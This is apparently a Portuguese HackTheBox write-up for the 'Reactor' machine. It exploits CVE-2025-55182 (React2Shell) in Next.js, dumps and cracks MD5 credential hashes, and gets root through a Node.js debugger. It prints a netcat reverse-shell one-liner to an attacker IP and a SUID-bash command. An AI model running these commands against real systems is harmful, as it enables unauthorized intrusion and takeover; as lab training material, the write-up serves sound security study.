

# Dominando um reator nuclear com React2shell


## Introdução

`Reactor` é uma máquina classificada como sendo de *fácil* dificuldade na plataforma [Hackthebox](https://www.hackthebox.com). Nela somos apresentados a um painel exposto de um reator nuclear, vulnerável à `CVE-2025-55182`, também conhecida como `React2shell`. Após a exploração da vulnerabilidade nós obtemos acesso remoto como usuário `node`, permitindo fazer o dump de hashes de credenciais guardadas no banco de dados. Após a quebra offline das hashes, podemos escalar lateralmente para o usuário `engineer` e descobrir que o node estava rodando um processo em modo depuração como `root`. Acessar a porta do depurador nos dá a oportunidade de executar um comando arbitrário e obter o controle total do servidor como usuário `root`.

---

## Reconhecimento

### Scan de portas

Comecei com a varredura de portas com a ferramenta [[NMAP]].

**Comando:**

```bash {24}
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -Pn -p$ports -sC -sV -oA nmap/$machine -vv $IP
```

**Resultado:**

```bash {16}
PORT    STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIoh32XcLYi0Kdad12SajqVyUVXfkDPaB7zZCDCMIJc+fv8JUJwyQRoqX/91+p6uD75Ggdp4VNzA7WasIkyo/4U=
|   256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPws9RyzoCW2cXzOFxeZCCt8rWcNu2umX2kqLLK6T+7H
3000/tcp  open   ppp?    syn-ack ttl 63
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000,
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Tue, 26 May 2026 21:07:36 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Tue, 26 May 2026 21:07:37 GMT
|     Connection: close
|   Help, NCP, RPCCheck:
|     HTTP/1.1 400 Bad Request
|_    Connection: close
23348/tcp closed unknown reset ttl 63
49464/tcp closed unknown reset ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.99%I=7%D=5/26%Time=6A160B8E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,2A30,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-S
SF:tate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x2
SF:0Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x201\
SF:r\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.js\r\nC
SF:ache-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd8t\"\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2017
SF:175\r\nDate:\x20Tue,\x2026\x20May\x202026\x2021:07:36\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head><meta
SF:\x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20href=\
SF:"/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"next\"/
SF:><link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low\"\x20
SF:href=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><script\x20
SF:src=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20async=\"\
SF:"></script><script\x20src=\"/_next/static/chunks/517-d083b552e04dead1\.
SF:js\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptio
SF:ns,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Next-Rou
SF:ter-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetc
SF:h\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private,\x20n
SF:o-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x20Tue,
SF:\x2026\x20May\x202026\x2021:07:37\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20R
SF:SC,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-
SF:Segment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x
SF:20private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r
SF:\nDate:\x20Tue,\x2026\x20May\x202026\x2021:07:37\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.35 seconds
           Raw packets sent: 4 (176B) | Rcvd: 4 (168B)
```

A varredura do `Nmap` retornou apenas duas portas abertas, sendo 22 [[SSH]] e 3000 [[HTTP]]. Outra coisa interessante é que o site na porta 3000 é construído com `Next.js`.

### Web

Dando uma olhada no página web na porta 3000, encontrei um dashboard de um sistema que monitora o estado de um reator nuclear. Obviamente esse tipo de coisa não deveria estar acessível, mas se você procurar um pouquinho no [Shodan](https://www.shodan.io),  vai encontrar infraestruturas menores inseguras nesse nível, só esperando que alguém as encontre.

![[reactor-0.png]]

O `Wappalyzer` revelou a versão do Next.js - `15.0.3`. Essa versão é vulnerável à uma vulnerabilidade de pontuação 10.0 no [[CVSS]]. Se trata da `CVE-2025-55182`, amplamente conhecida como `Reac2Shell`.

![[reactor-3.png]]

---

## Acesso Inicial

### React2Shell

> [!question] **O que é a vulnerabilidade React2Shell?**
> O `React2Shell` é uma vulnerabilidade que afeta especificamente os *React Server Components* (RSC) presentes no **React 19** e em frameworks baseados nele, como o `Next.js`. A falha reside na maneira como o servidor processa e desserializa dados enviados pelo cliente via protocolo RSC "Flight". Quando um servidor recebe uma requisição maliciosa, ele não valida adequadamente os dados enviados. Isso permite que um invasor injete estruturas maliciosas que o `React` aceita como válidas. Dessa forma, o atacante consegue executar comandos arbitrários no sistema operacional do servidor remotamente, sem precisar de login ou senha.

Para a exploração, usei uma [POC do Github](https://raw.githubusercontent.com/RavinduRathnayaka/CVE-2025-55182-PoC/refs/heads/main/CVE-2025-66478.py).

A POC é bem simples e só necessita da URL e o comando de sistema. Depois de rodar o comando meu listener recebeu a conexão reversa. Eu já estava dentro como usuário `node`.

```bash {17,18}
python3 CVE-2025-66478.py
/home/kali/Boxes/Hackthebox/Easy/Reactor/tools/CVE-2025-66478.py:27: SyntaxWarning: invalid escape sequence '\ '


      _         _    _                      _  __      _       _     _   _  _  _____
     / \   _ __| | _| |__   __ _ _ __ ___  | |/ /_ __ (_) __ _| |__ | |_| || ||___  |
    / _ \ | '__| |/ / '_ \ / _` | '_ ` _ \ | ' /| '_ \| |/ _` | '_ \| __| || |_  / /
   / ___ \| |  |   <| | | | (_| | | | | | || . \| | | | | (_| | | | | |_|__   _|/ /
  /_/   \_\_|  |_|\_\_| |_|\__,_|_| |_| |_||_|\_\_| |_|_|\__, |_| |_|\__|  |_| /_/
                                                         |___/
    ------------------------------------------------------------
    >>   CVE-2025-66478  |  NEXT.JS RCE POC   <<
    >>   DEVELOPED BY: ARKHAMKNIGHT47         <<
    ------------------------------------------------------------

[?] TARGET URL > http://10.129.8.7:3000
[?] COMMAND > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.210 9001 >/tmp/f

[*] EXECUTING EXPLOIT...
[+] PAYLOAD SUCCESSFUL. OUTPUT BELOW:
============================================================
246274145
============================================================
```

---

## Escalação de Privilégios

### Usuário engineer

Uma vez dentro do servidor, eu precisava escalar para um usuário mais privilegiado. Sorte a minha que havia um arquivo de banco de dados `reactor.db` ali mesmo sem proteção. Usando o utilitário `sqlite3`, fiz o dump da tabela `users`. 

```bash {10}
node@reactor:/opt/reactor-app$ ls
app  next.config.js  node_modules  package.json  package-lock.json  reactor.db
node@reactor:/opt/reactor-app$ sqlite3 reactor.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
sensor_logs  users
sqlite> select * from users;
1|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a68639812cd271e8e|operator|engineer@reactor.htb
sqlite>
```

Depois, usei o site [hashes.com](https://hashes.com/en/decrypt/hash) para quebrar o hash `MD5` do usuário `engineer`. Também adicionei o domínio `reactor.htb` ao meu arquivo `hosts`.

`engineer : reactor1`

![[reactor-1.png]]

Em seguida, usei o comando `su engineer` fazer movimentação lateral e pegar a flag de usuário.

``` {5}
node@reactor:/opt/reactor-app$ su engineer
Password:
engineer@reactor:/opt/reactor-app$ cd
engineer@reactor:~$ cat user.txt
e1a82b3280c7aeeae604619f09ecf9c4
engineer@reactor:~$
```

### Usuário root

Olhando nos prcessos executados pelo `root`, encontrei um processo que poderia ser meu vetor de ataque. O `Node.js` estava em modo de depuração na porta **9229**.

```
root        1410  0.0  1.2 1067032 47972 ?       Ssl  21:10   0:01 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

> [!warning] **Nunca ative depurador em ambiente de produção**
> Ativar o depurador em produção gera graves riscos de segurança e perda de desempenho. Qualquer pessoa com acesso à porta do depurador pode executar códigos maliciosos e roubar dados do servidor.

Para acessar os recursos na porta 9229, fiz o portforward com `SSH`.

```
ssh -L 9229:127.0.0.1:9229 engineer@reactor.htb
```

Em seguida, abri o `Chromium` e na barra de busca digitei `chrome://inspect`  para acessar o chrome `DevTools`.

![[reactor-2.png]]

Em **Remote Target** cliquei em **Inspect** para abrir o console. Por fim digitei o comando:

```javascript
process.mainModule.require('child_process').exec('cp /bin/bash /tmp;chmod +s /tmp/bash')
```

![[reactor-4.png]]

Esse comando cria uma copia do `bash` com `SUID` para o diretório `/tmp`. Assim só precisei acessar o diretório e executar o comando `bash -p` para conseguir um shell `root`. Também aproveitei para pegar a flag do root.

``` {24}
engineer@reactor:/tmp$ ls -l bash
-rwsr-sr-x 1 root root 1446024 May 27 00:13 bash
engineer@reactor:/tmp$ bash -p
bash-5.2# id
uid=1000(engineer) gid=1000(engineer) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd),1000(engineer)
bash-5.2# whoami
root
bash-5.2# cd /root
bash-5.2# ls -la
total 44
drwx------  7 root root 4096 May 26 21:11 .
drwxr-xr-x 23 root root 4096 May 20 10:07 ..
-rw-------  1 root root    0 May 20 10:12 .bash_history
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 May 20 09:10 .cache
drwxr-xr-x  3 root root 4096 Dec 28 20:47 .config
-rw-------  1 root root   20 May 18 13:10 .lesshst
drwxr-xr-x  3 root root 4096 Dec 28 20:54 .local
drwxr-xr-x  4 root root 4096 Dec 28 20:37 .npm
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   33 May 26 21:11 root.txt
drwx------  2 root root 4096 Dec 28 20:30 .ssh
bash-5.2# cat root.txt
cd215b22391e6a602ddcffda78423d6e
bash-5.2#
```

---

## Conclusão

![[ReactorFinal.png]]

Essa máquina é uma ótima oportunidade de praticar a exploração do `React2Shell` e também um lembrete de que mesmo sistemas aparentemente seguros podem ser completamente comprometidos se boas práticas de segurança não forem levadas a sério.

---

## Fluxo de ataque


